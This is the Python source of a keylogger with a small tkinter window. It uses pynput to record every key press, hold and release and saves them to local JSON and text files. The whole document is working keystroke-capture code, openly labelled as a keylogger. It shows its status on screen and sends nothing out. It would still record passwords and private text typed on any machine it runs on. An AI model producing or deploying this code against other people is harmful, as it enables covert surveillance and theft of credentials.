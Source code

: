 # keylogger
import tkinter as tk
from tkinter import *
from pynput import keyboard
import json

keys_used = []
flag = False
keys = ""

def generate_text_log(key):
    with open('key_log.txt', "w+") as keys:
        keys.write(key)

def generate_json_file(keys_used):
    with open('key_log.json', '+wb') as key_log:
        key_list_bytes = json.dumps(keys_used).encode()
        key_log.write(key_list_bytes)

def on_press(key):
    global flag, keys_used, keys
    if flag == False:
        keys_used.append(
            {'Pressed': f'{key}'}
        )
        flag = True

    if flag == True:
        keys_used.append(
            {'Held': f'{key}'}
        )
    generate_json_file(keys_used)


def on_release(key):
    global flag, keys_used, keys
    keys_used.append(
        {'Released': f'{key}'}
    )

    if flag == True:
        flag = False
    generate_json_file(keys_used)

    keys = keys + str(key)
    generate_text_log(str(keys))

def start_keylogger():
    global listener
    listener = keyboard.Listener(on_press=on_press, on_release=on_release)
    listener.start()
    label.config(text="[+] Keylogger is running!\n[!] Saving the keys in 'keylogger.txt'")
    start_button.config(state='disabled')
    stop_button.config(state='normal')

def stop_keylogger():
    global listener
    listener.stop()
    label.config(text="Keylogger stopped.")
    start_button.config(state='normal')
    stop_button.config(state='disabled')

root = Tk()
root.title("Keylogger")

label = Label(root, text='Click "Start" to begin keylogging.')
label.config(anchor=CENTER)
label.pack()

start_button = Button(root, text="Start", command=start_keylogger)
start_button.pack(side=LEFT)

stop_button = Button(root, text="Stop", command=stop_keylogger, state='disabled')
stop_button.pack(side=RIGHT)

root.geometry("250x250")

root.mainloop()
